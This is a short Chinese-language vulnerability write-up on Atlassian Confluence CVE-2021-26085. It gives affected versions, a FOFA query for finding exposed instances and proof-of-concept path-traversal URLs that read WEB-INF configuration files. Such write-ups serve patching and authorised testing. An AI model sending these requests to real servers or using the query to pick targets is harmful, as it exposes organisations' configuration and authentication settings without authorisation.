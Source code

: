 # Atlassian Confluence 敏感信息泄露 CVE-2021-26085

## 漏洞描述

Confluence 是一个专业的企业知识管理与协同软件，也可以用于构建企业 wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。该漏洞不是任意文件读取，只能读取一些 confluence 的配置文件，影响有限。

参考链接：

- https://jira.atlassian.com/browse/CONFSERVER-67893

## 漏洞影响

```
version < 7.4.10
7.5.0 ≤ version < 7.12.3
```

## FOFA

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

poc：

```
/s/123cfx/_/;/WEB-INF/web.xml
/s/123cfx/_/;/WEB-INF/decorators.xml
/s/123cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.properties
/s/123cfx/_/;/META-INF/maven/com.atlassian.confluence/confluence-webapp/pom.xml
```

